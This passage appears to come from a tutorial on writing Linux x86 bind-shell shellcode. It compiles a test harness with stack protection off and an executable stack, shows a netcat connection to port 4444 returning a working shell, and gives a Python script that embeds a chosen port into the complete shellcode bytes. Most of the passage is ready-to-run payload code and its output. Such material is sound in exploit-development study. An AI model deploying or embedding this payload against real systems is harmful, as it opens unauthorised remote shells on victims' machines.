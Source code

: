 ```shell
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
Now it should work!\
Run the file:
```shell
./shellcode
Shellcode Length:  94
```
Connect and issue a command:
```shell
nc -v 127.0.0.1 4444
Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
who
pwoer    tty7         Dec 11 10:13 (:0)
```
It works!

Now we have to make the port adjustable.  In order to do that we'll just write a python script that replaces the port in the shellcode with whatever the user inputs and then outputs the new shellcode.
```python
import struct
import sys

def main():
	if len(sys.argv) != 2:
		print "Usage: {0} PORT".format(sys.argv[0])
		exit()

	port = int(sys.argv[1])
	print port	
	# bounds checking
	if not (0 <= port <= 65535):
		print "That's not a real port number!"
		exit()

	# check well known ports
	if port <= 1024:
		print "Reminder: Well known port needs to be run as root"

	port = r'\x' + r'\x'.join(x.encode('hex') for x in struct.pack('!H', port))	

	# check nulls
	if r'\x00' in port:
		print 'Null in that port number. Try again.'
		exit()

	shellcode = "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\xb0\\x66\\xb3\\x01\\x51\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x89\\xc7\\xb0\\x66\\x43\\x52\\x66\\x68" + port + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\x50\\x57\\x89\\xe1\\xb0\\x66\\x43\\x43\\xcd\\x80\\x50\\x50\\x57\\x89\\xe1\\xb0\\x66\\x43\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80"

	print "Shellcode: " + shellcode
	
if __name__=="__main__":
	main()
```
This successfuly outputs the new shellcode with the desired port!
